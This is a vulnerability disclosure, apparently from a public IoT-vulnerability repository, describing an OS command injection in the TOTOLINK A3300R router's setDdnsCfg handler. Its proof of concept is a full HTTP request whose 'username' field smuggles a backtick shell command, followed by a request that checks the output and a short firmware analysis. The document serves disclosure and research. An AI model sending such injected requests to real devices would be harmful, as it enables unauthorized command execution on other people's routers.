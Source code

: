 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection
### Discoverer
杨益
## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setDdnsCfg` request,`username` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=12B107C61AD15CFD HTTP/1.1
Host: itotolink.net
Content-Length: 134
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/ddns.html?token=12B107C61AD15CFD
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: ext_pgvwcount=-0.1
Connection: close

{"enable":"1","provider":"3322.org","domain":"8.8.8.8","username":"admin`ls>/web/234.txt`","password":"admin","topicurl":"setDdnsCfg"}
```

injection the command "ls>/web/234.txt"

![image-20240109130442174](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109130442174.png)

check the result.

```
GET /234.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 17:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://itotolink.net/static/css/advance_menu.css
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: ext_pgvwcount=-0.1
Connection: close
```

![image-20240109130507028](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109130507028.png)

## Analysis

sub_40E920 will handle the `setDdnsCfg` request. sub_40E920 get `username` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240109130751395](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109130751395.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109131330610.png)
